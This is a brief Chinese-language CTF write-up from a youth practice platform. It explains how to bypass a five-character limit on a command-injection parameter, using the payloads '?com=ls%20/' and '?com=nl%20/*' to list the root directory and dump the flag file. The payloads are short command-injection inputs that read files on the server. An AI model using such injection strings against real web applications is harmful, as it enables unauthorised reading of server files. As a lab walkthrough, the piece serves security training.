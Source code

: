 ### nl /* 绕过长度限制

话不多说，直接上题（青少年 CTF 练习平台）

![](https://pic1.imgdb.cn/item/6838453258cb8da5c81a5f88.png)

限制了我们长度在 5 以为

![](https://pic1.imgdb.cn/item/6838456958cb8da5c81a5fa9.png)

发现 flag 在根目录下

```js
?com=ls%20/
```

![](https://pic1.imgdb.cn/item/683845b758cb8da5c81a5fb9.png)

使用 `nl` 查看，`nl` 用于显示文本并输出行号

```js
?com=nl%20/*
```

![](https://pic1.imgdb.cn/item/6838458958cb8da5c81a5fb0.png)